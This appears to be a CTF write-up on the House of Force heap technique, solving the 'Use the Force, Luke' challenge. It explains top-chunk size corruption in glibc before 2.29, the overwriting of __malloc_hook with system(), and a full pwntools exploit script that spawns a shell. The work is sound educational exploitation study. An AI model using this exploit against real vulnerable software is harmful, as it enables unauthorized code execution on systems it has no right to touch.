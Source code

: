 ```yaml
---
layout: post
author: Jorge Moreno
---
```



> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. I downloaded the files from [this writeup](https://diegoaltf4.com/heap-exploitation-0x02/) created by DiegoAltF4.

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk |
| --- | --- |
| USER DATA | USER DATA |
| USER DATA | TOP CHUNK SIZE |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.

![Untitled](images/house-of-force/Untitled.png)

As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now lets decompile the binary and see the code.

```c
undefined8 main(void)

{
  long buf;
  long in_FS_OFFSET;
  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak + -0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    __isoc99_scanf(&DAT_00400b62,&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    __isoc99_scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    local_18 = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(local_18);
    read(0,buffer,buf_size + 8);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `local_18` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will do the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ‘**/bin/sh\x00**’ to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` **a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the **/bin/sh** string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```

![Untitled](images/house-of-force/Untitled%201.png)

After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the **/bin/sh** string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Lets visualize now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0068732f6e69622f` are the string ****`/bin/sh`**.**

![Untitled](images/house-of-force/Untitled%202.png)

![Untitled](images/house-of-force/Untitled%203.png)

We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.

![Untitled](images/house-of-force/Untitled%204.png)

We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` ****as a parameter to the `system` function, thus giving us a shell.

![Untitled](images/house-of-force/Untitled%205.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './force', checksec = False)
libc = ELF('./.glibc/glibc_2.28_no-tcache/libc.so.6', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)

io = start()

io.recvuntil(b'system at')
system_leak = int(io.recvline(), 16)
libc.address = system_leak - libc.sym.system

io.recvuntil(b'else at')
heap_leak = int(io.recvline(), 16)

malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))

diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
info(f"0x{diff:02x} bytes to __malloc_hook")

malloc(diff, b'/bin/sh\0')
malloc(1, p64(system_leak))
malloc(heap_leak + 0x30, "")

io.interactive()
```

